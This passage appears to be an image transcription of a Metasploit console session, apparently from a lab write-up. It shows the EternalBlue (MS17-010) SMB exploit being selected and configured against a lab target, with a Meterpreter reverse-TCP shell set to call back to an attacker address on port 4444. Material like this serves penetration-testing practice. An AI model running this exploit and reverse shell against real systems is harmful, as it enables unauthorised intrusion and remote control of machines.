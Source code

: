 ```bash
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce                                                                

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp                                                 
msf6 exploit(windows/smb/ms17_010_eternalblue) > setg RHOSTS 10.10.222.187                                                   
RHOSTS => 10.10.222.187                                                                                                      
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options                                                                
                                                                                                                             
Module options (exploit/windows/smb/ms17_010_eternalblue):                                                                   
                                                                                                                             
   Name           Current Setting  Required  Description                                                                     
   ----           ---------------  --------  -----------                                                                     
   RHOSTS         10.10.222.187    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Us
                                             ing-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows
                                             Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Serv
                                             er 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2
                                             , Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.100.121    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


```
